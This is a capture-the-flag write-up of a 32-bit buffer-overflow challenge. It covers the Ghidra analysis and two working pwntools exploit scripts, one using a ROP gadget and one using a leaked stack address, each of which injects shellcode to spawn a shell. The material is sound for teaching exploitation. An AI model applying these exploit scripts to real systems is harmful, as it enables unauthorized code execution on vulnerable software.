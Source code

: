 ```yaml
---
title: "CWE Challenge - Shell"
author: Michael Mendoza
date: "2023-01-20"
subject: "Binary Exploitation"
keywords: [CTF, binary exploitation, Screening]
lang: "en"
titlepage: true
title-page-color: "141d2b"
titlepage-rule-color: "11b925"
titlepage-text-color: "FFFFFF"
toc: true
toc-own-page: true
titlepage-background: "./images/titlePage.jpeg"
...
```


# Information Gathering

We can see here that we are working with a 32-bit binary with all the defense mechanisms turned off!

![Information](./images/info.png)
 **Figure 1:** Information about the binary

## Ghidra

After observing the main function we can see a read_in function that has the vulnerability we are looking for.

![Ghidra](./images/read_in.png)
 **Figure 2:** Read_In Function
 
On the right side of Ghidra, we can see the decompiled read_in function showing that there is a buf variable with 44 bytes allocated to it, but the read function reads in 0x90 bytes; this is where the buffer overflow vulnerability is located. On the left side we can see that the buf variable is at an offset of 0x38.
 
I did not see a win function, so this means we will have to create a payload to exploit the binary and get a return shell. Overwriting the instruction pointer to return to the stack pointer where our exploit will be should be good enough.

## Creating the Exploit 
So there's 2 ways I want to show that this binary could be exploited. The first is to use a ROP gadget to return to the stack pointer, and the second is to find the offset to the stack pointer using the leaked address. Using the ROP gadget would be easier since you dont need a leaked address to find the offset to. However, I will show both exploits to showcase how this could be solved if using ROP gadgets was not an option.

# ROP Gadget Exploit

The goal we need to accomplish here is to somehow jump to, return to, or even call the stack pointer to run the shell code! We can accomplish this using ROP Gadgets. To find the right one, we use ropper and see the following output.

![ROP](./images/ropper.png)
 **Figure 3:** ROP Gadgets Available
 
Ideally, finding a "jmp esp" or "call esp" or even a "push esp; ret" would be nice, but there are not many options. We do see one ROP instruction that pushes esp onto the stack, does a couple of other things and then returns, which theoretically should still work.

![ROP](./images/gadgetFound.png)
 **Figure 4:** ROP Gadgets Found


We can use shellcraft in our python script to create the shell code necessary to give us a shell. We create a buffer of 0x38 bytes which we saw was the offset earlier in Ghidra and overwrite the instruction pointer to return to the gadget we found.

## Python Script

```
#!/usr/bin/env python3

from pwn import *

#setting the context will allow us to create a shell that will work based on the binaries architecture.
context.binary = ('./shell')

p = process('./shell')

buffer = 0x38 * b'A'
shell = asm(shellcraft.sh()) #creating the shell using the assembler function

#need to somehow return to the stack pointer where the shell code is
returnAddr = 0x08049115 # ROP Gadget found - push esp; mov ebx, dword ptr [esp]; ret;

#send the payload
payload = buffer + p32(returnAddr) + shell
p.sendline(payload)

p.interactive()
```

## Flag
![Flag](./images/flag.png)
\ **Figure 5:** Running the Exploit

And BOOM! Our gadget worked. 

# Leaked Address Exploit

To find the offset that we need for this exploit, we set a break point after the read function is called so we can see what the stack frame looks like when we send our payload. 

![Leaked](./images/read_inGDB.png)
 **Figure 6:** GDB read_in function

run the program to get the leaked address

![Leaked](./images/leakedAddress.png)
 **Figure 7:** Leaked Address

Here we see the leaked address is 0xffffd0c4. Now to view what the stack frame looks like at the time you send the payload.

![Leaked](./images/stackFrame.png)
 **Figure 8:** Stack Frame

Here we can see that the previous frame's sp is 0xffffd100. This is where we want to calculate our offset to. After doing some quick math.

![Leaked](./images/quickMath.png)
 **Figure 9:** Quick Math

So now we can see that adding 0x3c to the leaked address will return us to where our shell code is.

## Python Script

This script is exactly the same as the ROP script except we save the leaked address and calculate the return address by adding the offset we found.

```
#!/usr/bin/env python3

from pwn import *

#setting the context will allow us to create a shell that will work based on the binaries architecture.
context.binary = ('./shell')

p = process('./shell')

buffer = 0x38 * b'A'
shell = asm(shellcraft.sh()) #creating the payload using the assembler function

p.recvuntil(b'= ') #recieve up until the leaked address

leakedAddress = (p.recvline().strip()) #strips the address of whitespace

log.info(f'Leaked Address => {leakedAddress}')

strAddr = leakedAddress.decode('utf-8') #converts raw bytes to string


intAddr = int(strAddr, 16) #converts string to hex

log.info(f'Integer Address => {hex(intAddr)}')


returnAddr = intAddr + 0x3c #found the offset to the previous frames stack pointer to return to

log.info(f'Return Address => {hex(returnAddr)}')

payload = buffer + p32(returnAddr) + shell

log.info(f'Payload => {payload}')


p.sendline(payload)

p.interactive()
```
## Flag

![Flag](./images/leakedExploit.png)
 **Figure 10:** Running the Exploit

# Conclusion
This challenge was solvable by understanding how to create the payload and knowing where to return to. The need to return to the stack pointer to find our exploit was key in solving this problem.


# References
1. [https://guyinatuxedo.github.io/index.html](https://guyinatuxedo.github.io/index.html)
2. [https://docs.pwntools.com/en/stable/asm.html](https://docs.pwntools.com/en/stable/asm.html)



